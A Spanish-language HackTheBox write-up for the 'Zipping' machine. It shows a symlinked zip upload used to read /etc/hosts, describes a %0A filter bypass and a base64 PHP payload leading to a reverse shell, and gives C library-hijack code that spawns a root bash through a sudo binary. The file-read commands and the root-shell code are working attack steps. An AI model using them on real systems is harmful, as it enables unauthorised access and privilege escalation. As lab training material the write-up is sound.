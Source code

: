 # Zipping

Hola, hoy tengo una guia de una maquina de HackTheBox, en las cuales estaremos viendo explotación a partir de subida de archivos y secuestro de librerias para escalada de privilegios. Esta maquina ya la habia resuelto con el metodo del null byte en un archivo zip, pero esto fue parcheado hace unos meses así que mostraré un metodo alterno, por lo que me saltaré la parte de los escaneos

- Plataforma/Source: [HackTheBox](https://app.hackthebox.com/machines/Zipping)
- Dificultad: Medium
- OS: Linux
- IP: 10.10.11.229

- Tenemos dos puertos abiertos, el 80 y 22, la pagina web tiene un apartado para subir archivos zip, nosotros crearemos un link simbolico a /etc/hosts de esta forma:
~~~ bash 
ln -s ../../../../../../etc/hosts document.pdf
zip --symlinks zip.zip document.pdf
~~~
- Ahora al subirlo vemos que hay conectividad y una respuesta por parte del servidor, por lo que podemos concluir que es vulnerable a LFI, devolviéndome una cadena de texto en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8fdb597e-5693-4c3b-bb56-ef9926e711af)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/055645c8-d1fe-42f9-a836-5bcdf9d735c4)

- También podemos comprobarlo bajando el archivo directamente:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5cb00c9b-e1cf-4ecc-8f45-942bfefdebce)

- Para este punto me quedé sin ideas, hasta que se me ocurrió bajar algunos de los archivos que nos muestra como trabaja la aplicación por detrás, en cart.php encontré algo interesante, el valor de `product_id` parece estar intentando bloquear solicitudes con ciertos caracteres, solo aceptando algunos:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/f9e35c5a-6cc5-4143-8f05-51f50614b27d)

- Según HackTricks podemos ofuscar un payload a través de un bit nulo `%0A`, si tenemos exito deberiamos ver un codigo de redirección 302:
- Al parecer el servicio de mysql se ejecuta como root, por lo que podremos intentar utilizarlo para que ejecute nuestro payload:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/8b23d68c-dc25-41f7-8fa6-272d1f8809f9)
  - Y podemos ver que nos responde correctamente, por lo que intentaremos inyectar el payload a través de este metodo:
  - Primero, creamos nuestro payload, encondeando 2 veces en base64:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/5c2e9f4d-2ffa-4886-9a36-03d2d0b093ab)

- Después, creamos un archivo en php con la siguiente cadena:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/81fa0f62-3e77-46dc-95c3-4a487bc344ca)

- Y encodeamos este payload en base64 para así poder subirlo de la siguiente forma:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/aa944109-da87-4825-9642-71b3afe8c763)
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/31001874-7fdf-4f8e-b107-d37ae16f9782)


- Perfecto, el archivo está subido y lo único que debemos hacer es tener un listener en nuestro puerto 4444 y solicitar en payload con GET:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d233ffd4-c449-4d62-bf78-93555cd234a4)


***
<h3>PrivEsc</h3>

- Podemos encontrar un vector de ataque bastante rápido, al observar que podemos ejecutar un binario como sudo:
  ![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/ad91c15f-388d-44aa-9807-f3343ca553a8)

  - Ejecutamos el binario y observamos que solicita una contraseña:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/691383d6-b937-4f41-9d11-10eaf5a25529)

- Llegó la hora de examinar el binario, primero que nada utilizaremos `strings`, podemos ver que es un binario compilado en C, además de lo que parece ser una contraseña:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/82c39cb2-2605-47dd-9b7f-518c4620feb2)

- Al ingresar la contraseña, el binario simplemente deja de funcionar, al parecer se congela. Intento analizarlo con `strace` durante su ejecución y podemos ver algo mas:
~~~bash
strace sudo /usr/bin/stock
~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/b1da549f-88b7-4c60-aff9-efa2adfaa02a)
- Observamos que intenta llamar a una librería que no existe, por lo cual podemos reemplazar esta con una bash ejecutada desde un archivo C, que crearemos desde /tmp y compilaremos con gcc en la dirección donde debería estar
~~~ c 
#include <stdio.h>
#include <stdlib.h>
void false_lib() { system("/bin/bash"); } 
__attribute__((constructor)) void setup() { false_lib(); }
~~~
 - Este archivo ejecuta una bash a través de la función `setup` que se ejecutará automáticamente antes de la función `main` gracias al atributo `__attribute__((constructor))`, aprovechándonos de que se ejecutará como root, ganaremos privilegios instantáneamente.

   ~~~ bash 
   gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC lib.c
   ~~~
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/d551ea10-aabf-456a-be4f-622465e13f97)

 - Y finalmente somos root :D. Podemos dar por concluida la maquina.
